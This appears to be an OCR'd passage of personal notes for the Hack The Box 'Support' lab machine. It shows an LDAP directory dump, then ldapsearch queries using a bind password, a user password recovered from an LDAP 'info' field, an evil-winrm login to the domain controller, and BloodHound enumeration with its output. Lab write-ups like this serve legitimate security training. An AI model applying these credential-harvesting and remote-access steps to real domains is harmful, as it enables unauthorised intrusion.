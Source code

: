     MaxValRange
    MaxValRangeTransitive
    ThreadMemoryLimit
    SystemMemoryLimitPercent
  serverName: 
    CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=support,DC=htb
  schemaNamingContext: 
    CN=Schema,CN=Configuration,DC=support,DC=htb
  isSynchronized: 
    TRUE
  highestCommittedUSN: 
    82012
  dsServiceName: 
    CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=support,DC=htb
  dnsHostName: 
    dc.support.htb
  defaultNamingContext: 
    DC=support,DC=htb
  currentTime: 
    20220808053705.0Z
  configurationNamingContext: 
    CN=Configuration,DC=support,DC=htb

ldap query 

ldapsearch -H 'ldap://support.htb' -D 'support\ldap' -b 'CN=Users,DC=SUPPORT,DC=HTB' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

ldap query for user info 
username = support

ldapsearch -H 'ldap://support.htb' -D 'support\ldap' -b 'CN=Support,CN=Users,DC=SUPPORT,DC=HTB' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

we a get password from the info feild "Ironside47pleasure40Watchful"

connect the dc through winrm

evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i 10.10.11.174

BloodHOund enumeration 

sudo python3 bloodhound.py -u support -p 'Ironside47pleasure40Watchful' -ns 10.10.11.174 -d support.htb -dc support.htb -c all
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: bumek13.support.htb
INFO: Querying computer: Imp0st0r.support.htb
INFO: Querying computer: ANU01.support.htb
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: bumek13.support.htb: The DNS operation timed out after 3.2048611640930176 seconds
WARNING: Could not resolve: Imp0st0r.support.htb: The DNS operation timed out after 3.208218812942505 seconds
WARNING: Could not resolve: ANU01.support.htb: The DNS operation timed out after 3.2143640518188477 seconds
INFO: Done in 00M 17S
